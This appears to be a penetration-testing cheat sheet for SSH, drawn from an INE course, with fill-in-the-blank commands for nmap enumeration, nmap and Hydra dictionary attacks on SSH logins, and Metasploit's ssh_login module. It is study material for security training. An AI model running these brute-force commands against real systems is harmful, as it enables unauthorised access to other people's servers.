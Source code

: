 # SSH

* [nmap](#nmap)
* [Hydra](#hydra)
* [Metasploit](#metasploit)
* [References](#references)

***********************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
***********************************************************************

## nmap
Enumerate algorithms
```
nmap [TARGET-IP] -p 22 --script ssh2-enum-algo
```
Get ssh-rsa key
```
nmap [TARGET-IP] -p 22 --script ssh2-hostkey --script-args ssh_hostkey=full
```
Get authentication methods
```
nmap [TARGET-IP] -p 22 --script ssh2-auth-methods --script-args="ssh.user=[USERNAME]"
```
SSH dictionary attack
```
nmap [TARGET-IP] -p 22 --script ssh-brute --script-args userdb=[WORDLIST-PATH]
```

***********************************************************************

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] ssh
```

***********************************************************************

## Metasploit
```
msfconsole
```
```
use auxiliary/scanner/ssh/ssh_login
```
```
show options
```
Set options
```
exploit
```

***********************************************************************

### References

Penetration Tester Student v2 by INE  
https://my.ine.com/CyberSecurity/learning-paths/61f88d91-79ff-4d8f-af68-873883dbbd8c/penetration-testing-student-v2
